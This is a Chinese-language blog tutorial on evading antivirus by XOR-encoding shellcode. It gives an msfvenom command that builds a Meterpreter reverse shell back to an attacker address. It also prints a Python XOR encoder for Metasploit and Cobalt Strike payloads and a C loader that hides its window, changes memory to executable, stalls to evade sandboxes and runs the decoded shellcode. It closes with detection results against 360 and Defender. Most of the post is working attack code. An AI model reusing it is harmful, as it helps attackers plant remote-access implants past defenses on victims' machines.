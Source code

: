 ```yaml
---
title: 基于对shellcode进行异或免杀
tags:
  - 免杀
---
```

### 基于对shellcode进行异或免杀

**PS:感谢倾旋大佬，**[ascotbe](https://www.secpulse.com/newpage/author?author_id=26488)**大佬的分享**

#### 0x01 环境配置

Win10 x64

Vs2019

Python 2.7.18

CS4.0

Msf

生成payload：

Msf：

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.176.129 LPORT=4444 -o payload.bin

#### 0x02 免杀原理

对shellcode进行异或

#### 0x03 制作加密shellcode

使用倾旋大佬的代码进行xor加密

    import sys from argparse 
    import ArgumentParser, FileType

    def process_bin(num, src_fp, dst_fp, dst_raw):
        shellcode = ''
        shellcode_size = 0
        shellcode_raw = b''
        try:
            while True:
                code = src_fp.read(1)
                if not code:
                    break

                base10 = ord(code) ^ num
                base10_str = chr(base10)
                shellcode_raw += base10_str.encode()
                code_hex = hex(base10)
                code_hex = code_hex.replace('0x','')
                if(len(code_hex) == 1):
                code_hex = '0' + code_hex
                shellcode += '\\x' + code_hex
                shellcode_size += 1
            src_fp.close()
            dst_raw.write(shellcode_raw)
            dst_raw.close()
            dst_fp.write(shellcode)
            dst_fp.close()
            return shellcode_size
        except Exception as e:
        sys.stderr.writelines(str(e))

    def main():
        parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
        parser.add_argument('-v','--version',nargs='?')
        parser.add_argument('-s','--src',help=u'source bin file',type=FileType('rb'), required=True)
        parser.add_argument('-d','--dst',help=u'destination shellcode file',type=FileType('w+'),required=True)
        parser.add_argument('-n','--num',help=u'Confused number',type=int, default=90)
        parser.add_argument('-r','--raw',help=u'output bin file', type=FileType('wb'), required=True)
        args = parser.parse_args()
        shellcode_size = process_bin(args.num, args.src, args.dst, args.raw)
        sys.stdout.writelines("[+]Shellcode Size : {} \n".format(shellcode_size))

    if __name__ == "__main__":

        main()

执行如下命令获取payload.c 即shellcode

    python xorencode.py -s msf-payload.bin -d msf-payload.c -n 10 -r 123.txt 
    python xorencode.py -s cs-payload.bin -d cs-payload.c -n 10 -r cs-123.txt

生成结果如下：

![](https://fifteenblackslime.github.io/assets/pic/media2/0da9dfef4e4086c0e20a613b270507c7.png)

Payload.c内容为：

![](https://fifteenblackslime.github.io/assets/pic/media2/53d890566ef4831276da8a6585f37a7c.png)

#### 0x04 使用vs2019进行解密打包生成exe

倾旋大佬的代码及思路：

    申请内存时，一定要把控好属性，可以在Shellcode读入时，申请一个普通的可读写的内存页，然后再通过VirtualProtect改变它的属性-\> 可执行
具体代码如下：

    #include <Windows.h>

    // 入口函数
    int wmain(int argc, TCHAR* argv[]) {

        ShowWindow(GetConsoleWindow(), SW_HIDE);//不显示cmd窗口

        int shellcode_size = 0; // shellcode长度
        DWORD dwThreadId; // 线程ID
        HANDLE hThread; // 线程句柄
        DWORD dwOldProtect; // 内存页属性
    /* length: 800 bytes */

        unsigned char buf[] = "生成的shellcode";


        // 获取shellcode大小
        shellcode_size = sizeof(buf);

        /* 增加异或代码 */
        for (int i = 0; i < shellcode_size; i++) {
            buf[i] ^= 10;
        }
        /*
        VirtualAlloc(
            NULL, // 基址
        800,  // 大小
            MEM_COMMIT, // 内存页状态
            PAGE_EXECUTE_READWRITE // 可读可写可执行
            );
        */

        char* shellcode = (char*)VirtualAlloc(
            NULL,
            shellcode_size,
            MEM_COMMIT,
            PAGE_READWRITE // 只申请可读可写
            //原来的属性是PAGE_EXECUTE_READWRITE
        );

        // 将shellcode复制到可读可写的内存页中
        CopyMemory(shellcode, buf, shellcode_size);

        // 这里开始更改它的属性为可执行
        VirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect);

        // 等待几秒，兴许可以跳过某些沙盒呢？
        Sleep(2000);

        hThread = CreateThread(
            NULL, // 安全描述符
            NULL, // 栈的大小
            (LPTHREAD_START_ROUTINE)shellcode, // 函数
            NULL, // 参数
            NULL, // 线程标志
            &dwThreadId // 线程ID
        );

        WaitForSingleObject(hThread, INFINITE); // 一直等待线程执行结束
        return 0;
    }

![](https://fifteenblackslime.github.io/assets/pic/media2/507a365e287579cf8ec827c9b4413056.png)

生成release版本exe

使用过程中我添加了如下代码去除cmd窗口：

    ShowWindow(GetConsoleWindow(), SW_HIDE); 

![](https://fifteenblackslime.github.io/assets/pic/media2/75c00948267dd56d986d21f999545c3e.png)

##### 0x05免杀结果

测试杀软：360，defender

通过Msf的bin文件生成exe可以通过360检测，但无法通过defender。

通过Cobalt strike的raw文件生成exe无法通过杀软。
